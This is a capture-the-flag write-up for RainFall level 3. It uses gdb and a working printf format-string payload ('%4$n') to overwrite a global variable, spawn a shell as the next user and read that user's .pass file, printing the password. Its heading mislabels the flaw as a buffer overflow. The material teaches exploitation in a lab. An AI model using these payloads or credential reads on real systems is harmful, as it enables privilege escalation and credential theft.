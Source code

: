 # Level 3

## Vulnerability

Buffer Overflow Exploit

## Context
```
level3@RainFall:~$ ls -l
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
level3@RainFall:~$ ./level3
hello
hello
```
We have a binary that prints input from the stdin. 

## Solution
Let's take a look at the binary in gdb. 
```
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
```
We can see here that ```level3``` makes a call to ```main()```, which makes a call to a function ```v()```. <br/>
Let's take a deeper look a ```v()```.<br/><br/>
We can see two function calls in ```v()```. <br/>
One is to ```fgets()```, which is protected against buffer overflow attacks. <br/>
The other is to ```printf()```, which is vulnerable to string format exploits. 
```
(gdb) disas v
[...]
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
```
We also find a global variable ```m``` at address 0x804988c.
```
(gdb) break v
(gdb) run
(gdb) info variables
0x0804988c  m
```
Back in ```v()```, we see a comparison of variable ```m``` to the value 64 (or $0x40 in hexadecimal).<br/>
If the comparison is not equal (```jne```), then the program quits.<br/>
If the comparison is true, the program makes a call to ```system()``` and launches a new shell. 
```
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   [...]
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
```
We know that a ```printf()``` string with spurious % specifiers can be used to read whatever is on the stack. <br/>
Let's try it out. We'll use the modifier ```%x```, which will print out addresses on the stack in hexadecimal.
```
level3@RainFall:~$ python -c 'print "AAAA %x %x %x %x %x %x %x"' | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```
Interesting... We can see our buffer "AAAA" in the 4th position on the stack as ```41414141```.<br/>
This means that we can leverage ```printf``` to write our variable ```m```'s address directly in the stack!<br/>
So let's replace our buffer "AAAA" with the address of the variable ```m``` (in little endian).
```
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08'+'%x %x %x %x'" | ./level3
�200 b7fd1ac0 b7ff37d0 804988c
```
Great. Now how do we get our new ```m``` to have the value 64?<br/>
Well, we also know that with ```printf```'s ```%n``` modifier, some values can be written to memory. <br/>
%n means: "the next argument is an int * – go there and write the number characters written so far".<br/>
Let's break down what this exploit format string will look like. <br/>

- address of ```m``` [4 bytes]
- pad of arbitrary data [60 bytes]
- 4$ [$ is a shortcut to specifying the argument number, in this case, argument 4 on the stack]
- %n [writes 64 to memory at the address of m]

```
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08"+"A"*60+"%4$n"' ; cat -) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
